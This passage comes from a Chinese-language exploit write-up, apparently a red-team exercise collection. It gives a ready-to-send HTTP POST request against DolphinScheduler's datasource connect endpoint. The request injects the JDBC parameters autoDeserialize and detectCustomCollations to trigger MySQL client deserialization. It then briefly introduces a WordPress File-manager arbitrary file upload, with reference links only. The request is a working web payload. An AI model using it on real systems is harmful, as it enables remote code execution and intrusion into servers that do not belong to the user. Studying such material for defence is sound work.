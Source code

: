 > 将以下数据添加到jdbc连接参数中,就可以直接触发
![](images/hvv_31.png)

```angular2
POST /dolphinscheduler/datasources/connect HTTP/1.1

type=MYSQL&name=test&note=&host=127.0.0.1&port=3306&database=test&
principal=&userName=root&password=root&connectType=&
other={"detectCustomCollations":true,"autoDeserialize":true}

```
> 关于MySQL JDBC客户端反序列化漏洞的相关参考：`https://www.anquanke.com/post/id/203086`
>

### Wordpress File-manager任意文件上传
> 参考:`https://www.anquanke.com/post/id/216990`

> 相信大家对Wordpress并不陌生;File-manager插件也是相当火爆前段时间爆出任意文件上传漏洞
![](images/hvv_32.png)
